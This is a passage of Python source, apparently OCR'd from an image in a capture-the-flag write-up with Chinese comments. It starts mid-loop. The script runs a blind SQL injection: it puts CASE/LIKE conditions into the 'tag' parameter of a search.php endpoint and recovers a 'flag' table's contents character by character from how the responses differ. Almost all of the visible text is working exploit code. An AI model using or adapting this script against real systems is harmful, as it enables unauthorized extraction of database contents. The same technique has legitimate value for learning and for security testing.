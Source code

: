 ``` python
        # 空的話加上 1=2，一個恆假的條件
        conditions.append("1=2")
        continue
      # 這邊要對 _ 做處理，加上 /，否則 _ 會配對到任意一個字元
      arr = [f"(content like '{result}{chr(92) + c if c == '_' else c}%')" for c in group[i]]
      conditions.append(" or ".join(arr))

    payload = f'''
    (select case
      when ({conditions[0]}) then 1  
      when ({conditions[1]}) then 2  
      when ({conditions[2]}) then 5
      else 10
    end from flag)
    '''

    print("trying", group)

    response = requests.get(f'{host}/search.php?tag={encode(payload)}')
    if not response.ok:
      print('error')
      print(response.text)
      print(payload)
      is_over = True
      break

    data = json.loads(response.text)
    if len(data) == 0:
      print("end")
      is_over = True
      break

    if len(data) == 2:
      R = ML
      if len(group[0]) == 1:
        result += group[0]
        break
      
    else:
      if data[0]["name"] == "home1":
        L = ML
        R = MR
        if len(group[1]) == 1:
          result += group[1]
          break
      else:
        L = MR
        if len(group[2]) == 1:
          result += group[2]
          break

print(f"time: {time.time() - start}s")
```
